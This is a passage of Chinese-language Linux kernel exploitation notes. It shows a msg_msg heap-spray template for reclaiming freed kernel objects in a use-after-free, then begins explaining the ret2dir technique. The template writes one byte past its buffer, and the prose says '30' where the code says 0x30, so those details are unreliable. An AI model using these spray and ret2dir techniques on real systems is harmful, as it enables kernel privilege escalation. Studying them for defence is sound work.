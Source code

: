    ```c
   
       return msg;
   
   out_err:
       free_msg(msg);
       return ERR_PTR(err);
   }
   // /ipc/msgutil.c
   #define DATALEN_MSG ((size_t)PAGE_SIZE-sizeof(struct msg_msg))
   static struct msg_msg *alloc_msg(size_t len)
   {
       struct msg_msg *msg;
       struct msg_msgseg **pseg;
       size_t alen;
   
       alen = min(len, DATALEN_MSG);
       msg = kmalloc(sizeof(*msg) + alen, GFP_KERNEL_ACCOUNT); // 先分配了一个msg_msg结构大小
   ...
   ```

   前30字节不可控，发送的数据量越大，阻塞的可能性越大。

   用户态利用模版：

   ```c
   // 只能控制0x30字节以后的内容
   struct {
     long mtype;
     char mtext[BUFF_SIZE];
   }msg;
   memset(msg.mtext, 0x42, BUFF_SIZE-1); // 布置用户空间的内容
   msg.mtext[BUFF_SIZE] = 0;
   int msqid = msgget(IPC_PRIVATE, 0644 | IPC_CREAT);
   msg.mtype = 1; //必须 > 0
   // 假设此时已经产生释放对象，但指针未清空
   for(int i = 0; i < 120; i++)
     msgsnd(msqid, &msg, sizeof(msg.mtext), 0);
   // 触发UAF即可
   
   ```

### ret2dir

全称return-to-direct-mapped memory，ret2dir利用kernel space与user space的隐形地址共享，使得要劫持的内核数据或者执行流进入这一别名空间，类似一种不用返回用户空间的ret2usr改进版。更重要的是我们的payload不需要显式的放入内核空间（比如使用堆喷等技术），当page frame被给予attack process的时候，我们的攻击payload就会 “emerges in kernel space”。

内存布局：
